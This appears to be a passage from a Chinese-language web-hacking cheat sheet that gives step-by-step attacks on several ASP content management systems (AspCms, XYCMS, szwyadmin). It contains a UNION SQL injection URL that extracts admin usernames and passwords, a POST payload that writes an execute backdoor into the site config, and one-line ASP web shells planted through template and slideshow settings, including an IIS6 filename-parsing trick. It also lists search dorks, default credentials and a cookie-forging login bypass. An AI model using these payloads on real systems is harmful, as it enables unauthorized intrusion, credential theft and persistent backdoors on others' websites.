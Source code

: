 简要描述：后台文件AspCms_AboutEdit.asp 未进行验证，且未过滤，导致SQL注入。

爆帐号密码：

admin/_content/_About/AspCms_AboutEdit.asp?id=1 and 1=2 union select 1,2,3,4,5,loginname,7,8,9,password,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35 from aspcms_user where userid=1

版本不同需要更改值。

第二种方法，找到后台，然后/admin/_system/AspCms_SiteSetting.asp?action=saves

直接POST

[php]runMode=1&siteMode=1&siteHelp=%B1%BE%CD%F8%D5%BE%D2%F2%B3%CC%D0%F2%C9%FD%BC%B6%B9%D8%B1%D5%D6%D0&SwitchComments=1&SwitchCommentsStatus=1&switchFaq=0:Y=request(chr(35)):execute(Y)&SwitchFaqStatus=0&dirtyStr=&waterMark=1&waterMarkFont=hahahaha&waterMarkLocation=1&smtp_usermail=aspcmstest%40163.com&smtp_user=aspcmstest&smtp_password=aspcms.cn
&smtp_server=smtp.163.com&MessageAlertsEmail=13322712%40qq.com&messageReminded=1&orderReminded=1&applyReminded=1&commentReminded=1
&LanguageID=1[/php]
再连接配置文件config.asp 密码为#
老版本中可以通过添加模板直接添加asp.但是新版已经限制了添加模板的格式为html,js,css

当然如果是遇到iis6的话还是可以通过iis6的解析漏洞把文件名改成1.asp;.html这样的格式来拿到shell的.

方法：点击“界面风格”，然后选“编辑模板/CSS文件”，然后“添加模板”，文件名称写error.asp;.html，文件内容写一句话<%eval request(“g”)%>

然后添加，会提示添加成功，然后在模板列表中就可以找到我们添加的一句话了，用菜刀连接即可！

可是如果遇到iis7.5呢? 以下是本人自己找到挖掘到的aspcms通杀版本的后台拿shell方法.

1、进入后台，“扩展功能”–“幻灯片设置”–”幻灯样式”

2、使用chorme的审查元素功能或者firefox的firebug，总之使用能修改当前页面元素的工具就好了，将对应的slidestyle的value的值修改为1%><%Eval(Request (chr(65)))%><%

3、一句话木马，密码a。在/config/AspCms_Config.asp


### 0x34 XYCMS企业建站系统

关键词：inurl:showkbxx.asp?id=

默认数据库：data/xy#!123.mdb

默认账户密码：admin admin

找到网站配置，在网站名称里面直接插入一句话：网站”%><%eval request(“x”)%><%’，注意不要删掉网站名称！然后中国菜刀连接：/inc/config.asp


### 0x35 szwyadmin漏洞绕过后台验证 

关键字:inurl:szwyadmin/login.asp

javascript:alert(document.cookie=”adminuser=”+escape(“‘or’=’or'”));javascript:alert(document.cookie=”adminpass=”+escape(“‘or’=’or'”));javascript:alert(document.cookie=”admindj=”+escape(“1″));

1.后台一般存在一个szwyadmin文件夹，复制一下后台地址放在一边，之后复制代码替换后台地址访问进行注射！

2.这时会弹出一个窗口，连续点击三次确定。
